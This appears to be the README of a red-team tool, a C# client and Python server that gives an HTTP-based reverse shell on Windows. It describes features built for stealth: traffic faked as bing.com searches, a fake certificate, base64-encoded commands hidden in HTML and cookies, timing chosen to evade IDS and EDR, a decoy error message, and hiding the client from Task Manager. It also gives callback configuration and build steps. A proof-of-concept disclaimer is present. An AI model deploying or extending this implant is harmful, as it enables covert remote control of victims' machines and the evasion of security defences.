 # HTTP Asynchronous Reverse Shell

Table of contents

 1. [Introduction](#intro)
 2. [Features](#features)
 3. [Demonstration](#demo)
 4. [Configuration](#config)

------------

### Why ? 
<a name="intro"></a>

Today there are many ways to create a reverse shell in order to be able to remotely control a machine through a firewall. Indeed, outgoing connections are not always filtered.

However security software and hardware (IPS, IDS, Proxy, AV, EDR...) are more and more powerful and can detect these attacks.
Most of the time the connection to a reverse shell is established through a TCP or UDP tunnel.

I figured that the best way to stay undetected would be to make it look like legitimate traffic. 
The HTTP protocol is the most used by a standard user. Moreover it is almost never filtered so as not to block access to websites.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Architecture.png?raw=true)

### How it works ?
1) The client app is executed on the target machine.
2) The client initiates the connection with the server.
3) The server accepts the connection.

Then:  
-The client queries the server until it gets instructions.\
-The attacker provides instructions to the server.\
-When a command is defined, the client executes it and returns the result.

And so on, until the attacker decides to end the session.
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/Concept.png?raw=true)

### Disclaimer

This tool is only intended to be a proof of concept demonstration tool for authorized security testing. Make sure you check with your local laws before running this tool.

------------

### Features 
<a name="features"></a>

Today, as a poc, the following functionalities are implemented: 

1. Fake HTTP traffic to appear as searches on bing.com.
2. Commands are base64 encoded in the HTML response.
3. The result of the commands is encoded in base64 as a cookie by the client.
4. SSL support; by default it is a fake bing.com certificate.
5. Random delay between each customer call to avoid triggering IDSs.
6. Random template is used for each response from the server.
7. Re-use of the same powershell process to avoid triggering EDRs.
8. Support for all Cmd and Powershell commands.
9. The client display a fake error message at startup.
10. The client is hidden from tasks manager.
11. The client can be run as an administrator.

##### AV Detection

Only 3 out of 69 products were able to detect the client as malicious, without applying any evasive or obfuscation techniques.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/av_detection.png?raw=true)

------------

### Demonstration
<a name="demo"></a>

**Client side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/client_demo.gif?raw=true)

**Server side**
[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/server_demo.gif?raw=true)

------------

### Configuration
<a name="config"></a>

**Client : C Sharp**

1. Open *HARS.sln* in Visual Studio

**Config.cs**

This file contains parameters ; Assign the values you want :

    class Config
        {
            // Behavior
            public static bool DisplayErrorMsg = true;
            public static string ErrorMsgTitle = "This application could not be started.";
            public static string ErrorMsgDesc = "Unhandled exception has occured in your application. \r\r Object {0} is not valid.";
            public static int MinDelay = 2;
            public static int MaxDelay = 5;
            public static string Url = "search?q=search+something&qs=n&form=QBRE&cvid=";
            // Listener
            public static string Server = "https://192.168.24.79";
            public static string Port = "443";
            public static bool AllowInsecureCertificate = true;
        }

**HARS.manifest**

Change this line to run by default the client with certain privileges : 

`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`

With
`<requestedExecutionLevel  level="asInvoker" uiAccess="false" />`
or
`<requestedExecutionLevel  level="requireAdministrator" uiAccess="false" />`
or
`<requestedExecutionLevel  level="highestAvailable" uiAccess="false" />`

**Projet properties**

Here you can customize the assembly information and an icon for the file.

[![](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)](https://github.com/onSec-fr/Http-Asynchronous-Reverse-Shell/blob/master/Images/project_config.png?raw=true)

Note : Target .NET framework version is 3.5 which is available by default in Windows 7.  
*For Windows 10, choose .NET 4.6 if you don't want to have to install missing features*

#### Build

Build the project from Visual Studio.
The client should be generated in `Http Asynchronous Reverse Shell\HARS_Client\HARS\bin\Release` folder.

**Done!**

------------

**Server : Python**

**HARS_Server.py**
Location : `Http Asynchronous Reverse Shell\HARS_Server\www`

Simply change the port or location on the certificate if needed in the config section.

    # Config
    PORT = 443
    CERT_FILE = '../server.pem'

#### Run

`python HARS_Server.py`

#### Notes
-HTTP Logs are located in `Http Asynchronous Reverse Shell\HARS_Server\logs`\
-You can add your own templates (any html page) in `Http Asynchronous Reverse Shell\HARS_Server\templates`

------------
@onSec-fr
